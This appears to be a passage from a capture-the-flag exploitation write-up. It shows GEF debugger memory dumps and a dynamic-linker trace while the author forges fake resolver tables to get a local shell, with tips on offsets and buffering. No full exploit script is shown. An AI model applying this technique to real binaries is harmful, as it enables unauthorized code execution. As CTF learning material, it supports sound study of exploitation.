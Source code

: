 ```bash
────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xf7fb8f26 → _dl_fixup(l=0xf7fdfa40, reloc_arg=0x2f84)
[#1] 0xf7fbaff4 → _dl_runtime_resolve()
─────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x $ecx
0x80488f8:      0x05eb0000
gef➤  x/10wx $ecx
0x80488f8:      0x05eb0000      0x00033be8      0x5d8b9000      0x55c3c9fc
0x8048908:      0x8153e589      0x0000a4ec      0xfb3ae800      0xc381ffff
0x8048918:      0x000026ea      0xe031838d
```

After a lot of shifting the fake tables, we finally get a local shell!
Things to note:
    - Make sure to sleep and set context.log_level to debug to make sure you don't have buffering issues
    - Sometimes it would resolve but the index was in something vital and would result in a segfault after the symbol lookup, just try more offsets, 0's are always the best

Here's when my nightmare started, it seems that the addresses of those nulls are very random across the binaries. 
```bash
gef➤  x/10wx 0x80488f0
0x80488f0:      0x75c08510      0x02cee807      0x05eb0000      0x00033be8
0x8048900:      0x5d8b9000      0x55c3c9fc      0x8153e589      0x0000a4ec
0x8048910:      0xfb3ae800      0xc381ffff

=====================DIFFERENT BINARY==================================
gef➤  x/10wx 0x80488f0
0x80488f0:      0x10c483ff      0x0775c085      0x0002c8e8      0xe805eb00
0x8048900:      0x00000335      0xfc5d8b90      0x8955c3c9      0xec8353e5
0x8048910:      0xfb3ae854      0xc381ffff
```


On top of that, this section is part of the ld, so my local one may not be the same as the remote. 
Originally I was hoping that I could find a section that only had nulls as these pages usually are not all used so the end should be all null. The issue here is that our range is the BSS's range so it's somewhere between 448.
```bash
gef➤  x/112wx $ecx
0x80488b2:      0x04ec8310      0x458d136a      0x006a50dd      0xfffacde8
0x80488c2:      0x10c483ff      0x0044838b      0xec830000      0xcbe8500c
0x80488d2:      0x83fffffa      0xc28910c4      0x0044838b      0xec830000
0x80488e2:      0x558d5204      0xe85052dd      0xfffffaf2      0x8510c483
0x80488f2:      0xe80775c0      0x000002ce      0x3be805eb      0x90000003
0x8048902:      0xc9fc5d8b      0xe58955c3      0xa4ec8153      0xe8000000
0x8048912:      0xfffffb3a      0x26eac381      0x838d0000      0xffffe031
0x8048922:      0x83f44589      0x6a6a04ec      0x458d006a      0x9be8508a
0x8048932:      0x83fffffa      0xec8310c4      0x8d666a04      0x6a508a45
0x8048942:      0xfa48e800      0xc483ffff      0x48838b10      0x83000000
0x8048952:      0xe8500cec      0xfffffa46      0x8910c483      0x48838bc2
0x8048962:      0x83000000      0x8d5204ec      0x50528a55      0xfffa6de8
0x8048972:      0x10c483ff      0x8b90c085      0xc3c9fc5d      0x53e58955
0x8048982:      0xe834ec83      0xfffffac6      0x2676c381      0x838d0000
0x8048992:      0xffffe044      0x83f44589      0x186a04ec      0x458d006a
0x80489a2:      0x27e850dc      0x83fffffa      0xec8310c4      0x8d146a04
0x80489b2:      0x6a50dc45      0xf9d4e800      0xc483ffff      0x4c838b10
0x80489c2:      0x83000000      0xe8500cec      0xfffff9d2      0x8910c483
0x80489d2:      0x4c838bc2      0x83000000      0x8d5204ec      0x5052dc55
0x80489e2:      0xfff9f9e8      0x10c483ff      0x8b90c085      0xc3c9fc5d
0x80489f2:      0x53e58955      0xe854ec83      0xfffffa52      0x2602c381
0x8048a02:      0x838d0000      0xffffe068      0x83f44589      0x1f6a04ec
0x8048a12:      0x458d006a      0xb3e850d5      0x83fffff9      0xec8310c4
0x8048a22:      0x8d1b6a04      0x6a50d545      0xf960e800      0xc483ffff
```